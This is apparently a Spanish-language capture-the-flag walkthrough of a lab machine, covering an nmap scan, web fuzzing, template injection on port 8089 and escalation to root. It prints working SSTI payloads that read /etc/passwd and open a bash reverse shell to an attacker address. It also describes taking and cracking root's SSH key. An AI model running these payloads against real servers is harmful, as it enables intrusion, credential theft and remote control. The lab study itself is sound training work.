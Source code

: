 Lo primero es hacer un escaneo de puertos y servicios con nmap.

![Pasted image 20240811202559](https://github.com/user-attachments/assets/69503ddc-2d19-48d3-80fb-2a4dfe184585)

Haciendo fuzzing web con gobuster no encuentro nada.

![Pasted image 20240811203136](https://github.com/user-attachments/assets/d7f7721f-3761-4c21-8b92-da4bd081a055)

Accedo al servicio web pero por el puerto 80 solo me muestra el index por defecto de apache, sin embargo si entro por el puerto 8089 me muestra lo siguiente.

![Pasted image 20240811203246](https://github.com/user-attachments/assets/23defdcb-7814-4742-af41-43842512ec87)

Si doy al Enter, veo lo siguiente.

![Pasted image 20240811203548](https://github.com/user-attachments/assets/843d355a-90a7-4ed0-acd3-8fa044dfdf1c)

Voy a probar a ver si es posible que la web sea vulnerable a SSTI(Server Site Template Injection).

![Pasted image 20240811203657](https://github.com/user-attachments/assets/3c0111a5-acf1-4e27-bae6-a7a070406c77)

![Pasted image 20240811203706](https://github.com/user-attachments/assets/c9cc329d-4837-4fa7-9dc6-2e78e2c9cb86)

Puedo inyectar código html, por lo que con la etiqueta script puedo ejecutar código javascript.

Con el siguiente comando voy a poder obtener el contenido del archivo /etc/passwd para obtener los usuarios del sistema.

Si busco en el navegador información para poder atacar esta vulnerabilidad encuentro diferentes formas de explotar la vulnerabilidad en la web de [HackTrics](https://book.hacktricks.xyz/v/es/pentesting-web/ssti-server-side-template-injection) como el siguiente comando.

```javascript
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```

![Pasted image 20240811204408](https://github.com/user-attachments/assets/246a0837-848f-4c5f-ba2f-e423998ffdd9)

Voy a intentar recibir una reverse shell introduciendo el siguiente comando.

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4343 0>&1\'').read() }}
```

![Pasted image 20240811210104](https://github.com/user-attachments/assets/9305ca61-526d-4321-8f7d-ee3faef845ad)

Ahora toca intentar escalar privilegios.

Con ayuda del siguiente binario, puedo obtener la clave privada de ssh de root y utilizarla para conectarme a través del protocolo ssh como root a la máquina.

![Pasted image 20240811210928](https://github.com/user-attachments/assets/fa93e993-43c8-4336-bc4d-4c2e85d1db98)

Copio el contenido en un archivo que creo llamado id_rsa, y con john the ripper puedo crackear el contenido.

![Pasted image 20240811212229](https://github.com/user-attachments/assets/646ca74a-380f-4f50-a97f-eb9e939ff654)

Ahora ya solo falta iniciar sesión como root a través del protocolo ssh pero utilizando el archivo id_rsa con el parámetro -i y como contraseña honda1.

![Pasted image 20240811212803](https://github.com/user-attachments/assets/1b965e59-bc2e-450a-885c-b889cbe84678)
